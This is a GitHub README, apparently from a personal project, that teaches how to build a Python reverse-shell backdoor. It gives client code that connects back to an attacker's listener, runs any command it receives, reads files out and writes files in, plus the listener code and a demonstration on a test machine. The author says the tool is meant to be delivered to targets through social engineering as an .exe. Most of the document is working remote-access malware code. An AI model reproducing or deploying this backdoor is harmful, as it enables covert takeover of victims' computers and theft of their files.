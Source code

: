 # Backdoor.

A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high-level user access on a computer system, network, or software application. With this malware we're going to gain access to download files, upload files, and access any repository that we want.</br>
## HOW?</br>
This malware has to be executed on the target machine, this repository doesn't cover the part of this malware being executed on the target machine because this is done with social engineering, converting the program .py in one file .exe, anyway I won't cover this here, I'm gonna show how to create the malware.

## The Behavior of a Backdoor.
The idea is to connect both computers(mine and the target machine) using sockets, but trying to connect my computer with the target directly doesn't work, the system denies the connection with some random port obviously, is like someone random trying to connect with my computer I wouldn't allow. So instead of me try to connect with some random port of the target machine I'm gonna make the target machine connect with me, we call this reverse shell, when the target downloads the .exe will run the program and this way connecting with some port that I opened in my computer.</br>

Once I already have the connection how I'm gonna execute commands on the target machine and download files e upload files? With the socket connection, I can send and receive strings between the computers, so I'm gonna send the command that I want to execute on the target machine and he will receive, and my program(the program that the target downloaded) will treat the string and execute on the target machine, sending back to my computer the command result. EX: if the target uses Windows and I send the command "cd" as a string he will receive and my program(on the target machine) it's gonna execute and send back the command result, in this case the directory that I'm./br>

The first thing that my .exe it's gonna do when the target executes, it's connecting with my machine using the module "socket" of python, in this case, the connection is made by the constructor when I create an object of the class backdoor.
```python
def __init__(self, ip, port):
    self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.connection.connect((ip, port))

my_backdoor = Backdoor ("192.168.1.8",4444)
my_backdoor.run()
```
then i run the methon run() that is gonna run all the time while the connection is up, the method receive_as_json() receive the commands that i sent from my machine, it receive as json because the socket connection just receive strings and how the commands that i want to execute are biggers, because they are lists like "dowload file.txt", i use json that converts lists and everything in strings.
```python
def receive_as_json(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue
```
this is other method that have an infinite loop because i can receive just 1024 bytes for each interaction, so verify if all the content already been received, if not keep receiveing more 1024 bytes.</br>

the try statement it's gonna verify the command list, precisely the first position to verify what i want to use(cd, download, upload) any other command will execute without any problems. When the cd command is executed i just change my directory to which i want to go(second part of the list the command[1]) with the module "os". And the result i put in variable command_result that is sent to my computer as json. 
```python
           try:
                if command[0] == "exit":
                    self.connection.close()
                    sys.exit()
                elif command[0] == "cd" and len(command) > 1:
                       self.change_working_directory_to(command[1])
                       command_result = "[+] Changing working directory to " + str(command[1])
                elif command[0] == "download":
                    command_result = self.read_file(command[1])
                elif command[0] == "upload":
                    command_result = self.write_file(command[1], command[2])  
                else:
                    command_result = self.execute_system_command(command)
            except Exception as e:
                command_result = "[-] Error during comand execution."
 
            self.send_as_json(command_result)
```
To download and upload files between the connection the logic is almost the same, the ideia is to copy the file that i want to download from the target machine and create a new file on my machine with the same content that i received through the connection. When i copy a file i actually copy all the characters from this file and when i paste i create a new file with this characters that i copied.
```python
def read_file(self, path):
    with open(path, "rb") as file:
         return base64.b64encode(file.read())
```
the logic reading the file is eazy, i just read the file that i want to download as a binary file, and convert into base 64 with the module "base64", because, when i read as a binary file unknow characters comes with the other characters, so converting the file to base 64 the unknow characters don't appear anymore.</br>

Anyway when i download one file from the target machine i actually sent the characters through the socket connection and receive on my machine, then one file is created with this characters that came from the target machine, this way i have the file that i wanted on my pc. Now when i want to upload files to my target is the same logic i just have to send from my computer the characters(in base 64) of the file, and the target machine will receive and use the method write_file() to create a new file with the characters that i want.

```python
 def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Upload successful."
```
All of this was the reverse_backdoor.py in format of .exe that was executed on the target machine, the listener is almost the same thing of this code, the differences are the constructor that open a port to receive the connection from the target machine.
```python
def __init__(self, ip, port):
          listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
          listener.bind((ip, port))
          listener.listen(0)
          print("[+] Waiting  for incoming connections")
          self.connection, address = listener.accept()
          print("[+] Got a connection from" + str(address))
```

the method run() it's gonna be in loop until i write the word "exit", while this i have an input to send the command that i want to the target machine, then i split the command to convert into a list. As i said if the first position of my list is "upload" i'm gonna read characters that i want and send through the socket connection as json, if the command is "download" i'm gonna send the command and receive the characters from the file that i want, and create a file with this characters.

```python
def run(self):
          while True:
                command = raw_input(">> ")
                command = command.split(" ")

                try:
		               if command[0] == "upload":
	                    file_content = self.read_file(command[1])
	                    command.append(file_content) 

		               result = self.execute_remotely(command) 
		                      
		               if command[0] == "download":
		                  result = self.write_file(command[1], result)
               except Exception:
                   result = "[-] Error during command execution"  

               print(result)
```
## The Backdoor in action...

First of all i have to execute the listener.py in my machine and wait the target download the .exe, with my testing machine
i downloaded the .exe(the file reverse_backdoor.py) then the connection is made automatically from the target machine. How you can see i got a connection from my target and if write the command ipconfig i already can see the result on my machine about the target machine. 

![Alt text](/<images/gif1.gif)

With the command "dir" i can see wich files are in that directoy, i want to download the image "codeImage.png", sending the command "download codeImage.png" the image appears on my machine.

![Alt text](/<images/gif2.gif)

Now i want to send the file EVILFILE.txt to my target, as you can see with the command "dir" there was nothing like that on the target,but when i write the command "upload EVILFILE.txt"...

![Alt text](/<images/gif3.gif)





